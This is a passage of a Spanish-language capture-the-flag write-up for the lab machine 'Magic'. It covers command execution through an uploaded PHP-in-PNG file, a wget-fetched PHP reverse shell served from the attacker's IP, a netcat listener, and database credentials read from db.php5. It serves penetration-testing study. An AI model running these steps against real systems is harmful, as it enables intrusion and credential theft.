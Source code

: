 Ahora nosotros podemos ejecutar comandos agregando el parámetro cmd.

![](https://lh6.googleusercontent.com/-_CscEoLovZw5gUct8wCparEnlNtoDuIViOdl6nehISzptFNTnZ6ZhRjj1G3yqjZh4DLbPSH0PW7tK-Qw3WN2epeYogCdntgt05ocjgLtdutea8R_4d8MAvXbjDe-z10WVZouoXQ)

Ahora que podemos ejecutar comandos necesitamos obtener una shell completa, para ello utilizare la `php-reverse-shell.php` que viene incluida en kali.

```console
intrusionz3r0@Kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php .
intrusionz3r0@Kali:~$ nano php-reverse-shell.php #Asegurate de editar la ip con la tuya.
intrusionz3r0@Kali:~$ mv php-reverse-shell.php z3r0.php
```
Levantamos un servidor con python.
```python
intrusionz3r0@Kali:~$ sudo python -m SimpleHTTPServer 80
```
Descargamos z3r0.php en la máquina y lo guardamos en `/tmp` para después ejecutarlo.
> http://magic.htb/images/uploads/imagen.php.png?cmd=wget http://10.10.14.7/z3r0.php-O /tmp/z3r0.php

> http://magic.htb/images/uploads/imagen.php.png?cmd=php /tmp/z3r0.php

## Shell como el usuario www-data.

```console
intrusionz3r0@Kali:~$ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from magic.htb [10.10.10.185] 36302
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:58:36 up  3:00,  0 users,  load average: 0.02, 0.08, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@ubuntu:/$
```

Luego de obtener una shell interactiva, comienzo la fase de enumeración.

Si nos vamos a `var/www/Magic` encontraremos un archivo llamado `db.php5`, dentro almacena unas credenciales.

```console
www-data@ubuntu:/var/www/Magic$ cat db.php5
...
...
    private static $dbName = 'Magic' ;                                                                                                                                   
    private static $dbHost = 'localhost' ;                                                                                                                               
    private static $dbUsername = 'theseus';                                                                                                                              
    private static $dbUserPassword = 'iamkingtheseus';
...
...
```
